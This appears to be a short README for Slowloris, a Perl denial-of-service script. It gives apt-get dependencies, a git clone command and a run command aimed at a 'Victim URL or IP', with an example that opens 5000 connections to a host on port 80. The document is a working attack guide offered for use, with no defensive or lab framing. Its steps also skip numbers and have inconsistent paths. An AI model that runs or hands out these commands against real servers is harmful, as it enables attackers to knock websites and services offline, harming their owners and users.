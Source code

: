 **README**

How use Slowloris

Requirements:
# sudo apt-get update  
# sudo apt-get install perl
# sudo apt-get install libwww-mechanize-shell-perl
# sudo apt-get install perl-mechanize


1) Open Terminal
   # cd /home
3) Download slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/slowloris.pl.git
4) Choose the directory where the file is downloaded
   # $home/ cd /slowloris.pl
6) Run application
   # $home/slowlores.pl/ perl slowloris.pl -dns (Victim URL or IP) -options
8) Example
   # $home/slowlores.pl/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache


Done
